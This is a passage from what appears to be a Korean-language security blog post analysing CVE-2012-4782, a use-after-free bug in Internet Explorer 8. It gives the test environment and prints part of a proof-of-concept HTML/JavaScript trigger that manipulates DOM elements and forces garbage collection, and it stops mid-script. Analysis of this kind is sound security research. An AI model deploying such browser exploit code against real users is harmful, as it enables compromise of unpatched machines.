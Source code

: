 ```yaml
---
layout: post
current: post
cover: 'assets/images/windows/0x0e_6.png'
navigation: True
title: CVE-2012-4782
date: 2019-07-21 18:00:00
tags: Posts
class: post-template
subclass: 'post tag-windows'
author: Joel
---
```


# 0x0e IE8 Exploit

안녕하세요. Joel입니다.

오늘은 지금까지 알아 본 기법을 토대로 exploit을 다루어 보고자 합니다.

2019년에 나온 CVE를 바로 다루어 보려고 하다가 차근차근 가보자는 생각으로 IE8부터 설명하기로 했답니다.

이번 블로그에서 연재하는 CVE-2012-4782는 IE8에서 발생하는 UAF 취약점입니다.

Exodus 블로그를 많이 참조해서 글이 작성된 점을 먼저 안내 드립니다. 

##### 환경 구성

| OS | Windows XP Service Pack 3 |
| IE | 8.0.6001|
| Affect Ver. | IE6, IE7, IE8 |

##### POC

분석에 사용할 POC는 아래와 같습니다.
	
	<!doctype html>
	<html>
	<head>
	<script>
	function helloWorld(){
		var e0 = null;
		var e1 = null;
		var e2 = null;
		
		try{
			e0 = document.getElementById("a");	// form
			e1 = document.getElementById("b"); // dfn
			e2 = document.createElement("q"); // q
			e1.applyElement(e2);
			e1.appendChild(document.createElement('button'));
			e1.applyElement(e0);
			e2.outerText="";
			e2.appendChild(document.createElement('body'));
			CollectGarbage();
		} catch(e){}
